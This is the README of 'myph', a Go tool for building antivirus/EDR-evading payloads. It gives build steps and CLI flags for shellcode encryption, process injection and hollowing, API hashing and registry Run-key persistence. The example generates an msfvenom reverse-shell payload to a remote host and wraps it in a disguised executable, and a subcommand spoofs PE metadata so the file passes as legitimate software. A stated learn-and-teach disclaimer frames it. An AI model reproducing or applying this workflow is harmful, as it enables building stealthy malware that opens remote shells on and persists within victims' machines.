# myph

AV/EDR bypass payload creation tool

## Disclaimer

The access to and the use of the information on this repository is free of charge,
but implies the tacit acceptance by the user of the following conditions, without prejudice to the applicable legal provisions.
The user acknowledges that this repository is intended for informational purposes only and therefore serves only
for general information and testing. The tool and this repository are carefully compiled on the basis of good sources and references.

However, the developers cannot be held liable for for any damage, direct or indirect, of whatever nature as a result of
or related to the access to or use of the software.

> IOCs have voluntarily been added to the project. Don't open any issues regarding detections, it's pointless.
> The goal of this project is to learn & teach. If you want a FUD loader, dont be a baby and make your own.

## How to use the software ?

> Please note this project is under development & subject to changes.
> Breaking changes can be introduced from release to release.

### Compiling or Installing the project

You can easily compile like so:
```bash
# if you have make installed
make  # you can also use `make help` to check recipes

# if you don't
go build -o myph .
```

> You can also grab the latest release from [here](https://github.com/mato7sh/myph/releases/)

Finally, you can install from the [golang package repository](https://pkg.go.dev/github.com/mato7sh/myph) like so:
```bash
# /!\ lowercase is important /!\
go install github.com/cmepw/myph@latest
```

### Usage

```
Available Commands:
  completion  Generate the autocompletion script for the specified shell
  help        Help about any command
  spoof       spoof PE metadata using versioninfo

Flags:
      --api-hashing-type string   Hashing algorithm used for API hashing (default "DJB2")
  -d, --debug                     builds binary with debug symbols
  -e, --encryption encKind        encryption method. (allowed: AES, chacha20, XOR, blowfish) (default AES)
  -h, --help                      help for myph
  -k, --key string                encryption key, auto-generated if empty. (if used by --encryption)
  -f, --out string                output name (default "payload.exe")
  -z, --persistence string        name of the binary being placed in '%APPDATA%' and in 'SOFTWARE\Microsoft\Windows\CurrentVersion\Run' reg key (default: "")
  -p, --process string            target process to inject shellcode to (default "cmd.exe")
  -s, --shellcode string          shellcode path (default "msf.raw")
      --sleep-time uint           sleep time in seconds before executing loader (default: 0)
  -t, --technique string          shellcode-loading technique (allowed: CRT, CRTx, CreateFiber, ProcessHollowing, CreateThread, NtCreateThreadEx, Syscall, SyscallTest, Etwp) (default "CRT")
      --use-api-hashing           Use API Hashing
  -v, --version                   version for myph
```

#### Loader Methods

This tool supports few methods for now, but aims to add more as time goes on:
- Syscall
- CreateFiber
- CreateThread
- NtCreateThreadEx
- Process hollowing
- EnumCalendarInfoA
- CreateRemoteThread
- EtwpCreateEtwThread
- CreateRemoteThreadEx

If you don't know what that is about, go check out [this repository](https://github.com/matro7sh/BypassAV) :)~


#### Example run

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=1234 -f raw -o msf.raw

# run myph (--shellcode is not mandatory here because we use the default value)
./myph --shellcode msf.raw --out something.exe

# you should find your payload here
file ./something.exe

# add some program metada
./myph spoof --pe something.exe --file .github/test-data/example.json
```

#### Using docker

```bash
# using makefile
make docker

# going through dockerfile directly
docker build . -t myph:latest
```

#### Editing file properties

A subcommand is available to edit a PE file's properties & change its icon or file version (for instance).
For more information on CLI usage, you can run:
```bash
# will give you a little help display
./myph spoof --help

# will edit demo.exe with the data specified in example.json
./myph spoof --pe demo.exe --file example.json
```

It expects a JSON file, containing the metadata you want to set. You can find an example in `.github/test-data` directory.

Information on resource types and language IDs can be found [here](https://learn.microsoft.com/en-us/windows/win32/menurc/resource-types) and [here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-lcid/70feba9f-294e-491e-b6eb-56532684c37f).

You can set data depending on the language.
BMP, ICO, and PNG files are supported, and you can a wide array of information:

```json
{
  "RT_VERSION": {
    "#1": {
      "0000": {
        "fixed": {
          "file_version": "1.2",
          "product_version": "1.2.3",
          "flags": "Debug,Patched",
          "timestamp": "2020-12-18T23:00:00+01:00"
        },
        "info": {
          "0409": {
            "Comments": "that should do it",
            "CompanyName": "Smersh",
            "FileDescription": "smrsh 4 evr",
            "FileVersion": "1.2",
            "InternalName": "",
            "LegalCopyright": "GNU GPL v3",
            "LegalTrademarks": "",
            "OriginalFilename": "myph.exe",
            "PrivateBuild": "",
            "ProductName": "myph ldr",
            "ProductVersion": "1.2 release",
            "SpecialBuild": ""
          },
          "040C": {
            "Comments": "ca devrait le faire",
            "CompanyName": "Smersh",
            "FileDescription": "smrh pr tjrs",
            "FileVersion": "1.2",
            "InternalName": "",
            "LegalCopyright": "GNU GPL v3",
            "LegalTrademarks": "",
            "OriginalFilename": "myph.exe",
            "PrivateBuild": "",
            "ProductName": "myph ldr",
            "ProductVersion": "1.2 release",
            "SpecialBuild": ""
          }
        }
      }
    }
  }
}
```

### Contributing

Contributions are welcome, but please try to keep PRs short and issues descriptive. :)~

A guide on how to use the tool is in the works, please let us know if you're interested in helping out.
